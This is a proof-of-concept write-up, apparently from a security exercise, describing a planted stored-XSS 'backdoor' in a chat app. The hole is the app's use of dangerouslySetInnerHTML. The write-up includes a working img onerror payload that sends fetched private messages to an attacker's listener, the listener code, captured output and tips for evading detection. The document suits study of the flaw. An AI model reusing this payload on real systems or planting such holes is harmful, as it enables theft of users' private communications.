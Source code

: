 # Backdoor 1: Data Exfiltration

## Description

This backdoor exploits a persistent cross-site scripting (XSS) vulnerability to exfiltrate stored client-side data, compromising the confidentiality of users in the chat system.

## Technical Details

Messages are stored client-side in a volume that users can retain for a configurable duration. The frontend retrieves these messages using a `/get_messages` endpoint, which extracts a message JSON object from a Docker volume. These messages are then displayed inside a React component using `dangerouslySetInnerHTML`. By sending a message containing malicious script, whether public or private, an attacker can force the receiving clients to execute this script whenever they view their messages. In the case of a private message, this allows targeted attacks on specific users.

Crucially, this malicious script can itself call `/get_messages`, but instead of displaying the data, it can exfiltrate the messages to an unauthorized remote server. The code snippets at the end of this document provide a comprehensive understanding of the vulnerability enabling this backdoor.

## Objectives

This backdoor violates several key security principles:

- Confidentiality: It allows unauthorized access to private messages intended only for specific recipients.
- Authentication: The backdoor bypasses any authentication measures in place for accessing private messages.
- Trust: It undermines the trust users place in the system's ability to keep their communications private.

## Exploitation Method (Proof of Concept)

1. Attacker identifies that messages are displayed using `innerHTML` and not `innerText`.

![Image 1.1](appendix/Image%201.1.png)

<p align="center"><em>Figure 3.1: A simple XSS test. The attacker refreshes the page and realises that the message is stored, so it's persistent</em></p>

2. Attacker monitors their network tab to see what request the frontend is making to the backend.

![Image 1.2](appendix/Image%201.2.png)

<p align="center"><em>Figure 1.2: The <code>`/get_messages`</code> endpoint catches the attacker's eye!</em></p>

3. Attacker sets up a very basic server to retrieve responses.

```js
const express = require("express");
const bodyParser = require("body-parser");
const cors = require("cors");
const app = express();
const port = 3000;

app.use(cors());
app.use(bodyParser.json());

app.post("/return", (req, res) => {
  console.log("Received POST request at /return");
  console.log("Request body:", req.body);
  res.status(200).send("Request received and logged");
});

app.listen(port, () => {
  console.log(`Server listening at http://localhost:${port}`);
});


...
[ 1 16:38:00 john-wayne-gacy ~/Documents/OMesh/backdoor/appendix ] $ node server.js
Server listening at http://localhost:3000
```

4. Attacker crafts a special XSS attack which will make a request to `/get_messages` and send the response to their server.

```html
<img
  src="x"
  onerror='fetch("/get_messages").then(r=>r.json()).then(d=>fetch("http://localhost:3000/return",{method:"POST",headers:{"Content-Type":"application/json"},body:JSON.stringify(d)}))'
/>
```

5. Attacker waits some time for other clients to send some private messages

![Image 1.3](appendix/Image%201.3.png)

<p align="center"><em>Figure 1.3: Clients 2 and 3 are speaking privately, thinking that client 1 can't see their messages</em></p>

6. Attacker sends a private XSS attack to client 2 and waits for them to refresh their messages.

![Image 1.4](appendix/Image%203.3.png)

<p align="center"><em>Figure 1.4: Client 2 retrieves the XSS attack!</em></p>

7. Victim client loads XSS attack, which forces them to send their messages to the attacker's server.

```
[ 0 16:51:34 the-zodiac-killer ~/Documents/OMesh/backdoor/appendix ] $ node server.js
Server listening at http://localhost:3000
Received POST request at /return
Request body: {
  messages: [
    {
      message: 'hi client 3, we can talk in private here!!!',
      sender: 'kOCmwXHM5C/pNO5nW+FTdDxCFr6CHnT75u6doHno+7o=',
      timestamp: 1727767376.9362664
    },
    {
      message: 'hi client 2, yes we can! client 1 will never be able to see this!',
      sender: 'YEym18KEGEn68nr3MHSnOCN+h5thptu+amZA7Y1HJvo=',
      timestamp: 1727767403.5918934
    },
    {
      message: `<img   src="x"   onerror='fetch("/get_messages").then(r=>r.json()).then(d=>fetch("http://localhost:3000/return",{method:"POST",headers:{"Content-Type":"application/json"},body:JSON.stringify(d)}))' />`,
      sender: 'C7G1Mrjqk6nDlS5u7Fv3R221UovWf9HzffZQtEzrOt4=',
      timestamp: 1727767593.7110288
    }
  ]
}
```

<p align="center"><em>Figure 1.5: Attacker successfully retrieves private 'secure' messages from a simple XSS vulnerability</em></p>

## Detection Challenges

- The vulnerability hinges on a single, easily overlooked line in approximately 4,000 lines of code: the use of `dangerouslySetInnerHTML`.
- Much of the code enabling this exploit serves legitimate purposes within the application. The storage and retrieval of data in client volumes is necessary for the messaging functionality.
- The XSS payload can be obfuscated or split across multiple messages to evade simple pattern-matching detection methods.
- The actual data exfiltration occurs client-side, making it difficult to detect through server-side logging or monitoring.
- The attack leaves minimal traces in server logs, as it primarily exploits client-side vulnerabilities.
- Regular security scans might not detect this vulnerability if they're not specifically configured to check for XSS in React applications.

## Code Snippets

```jsx
// ... (rest of react component)
<p
  className="break-words"
  dangerouslySetInnerHTML={{ __html: messageContent }}
></p>
```

<p align="center"><em>Figure 1.1: Code Snippet showing use of <code>dangerouslySetInnerHTML</code></em></p>

```python
@app.route('/get_messages', methods=['GET'])
def get_messages():
    if MESSAGE_EXPIRY_TIME == 0:
        # Messages are not stored; return the current messages and clear them
        messages = client_instance.incoming_messages.copy()
        client_instance.incoming_messages.clear()
        return jsonify({'messages': messages})
    else:
        current_time = time.time()
        with client_instance.message_lock:
            if MESSAGE_EXPIRY_TIME > 0:
                # Remove expired messages
                client_instance.incoming_messages = [
                    msg for msg in client_instance.incoming_messages
                    if current_time - msg['timestamp'] <= MESSAGE_EXPIRY_TIME
                ]
                client_instance.save_messages()

            messages = client_instance.incoming_messages.copy()
        return jsonify({'messages': messages})
```

<p align="center"><em>Figure 1.2: Code Snippet showing the client's logic to send back messages</em></p>
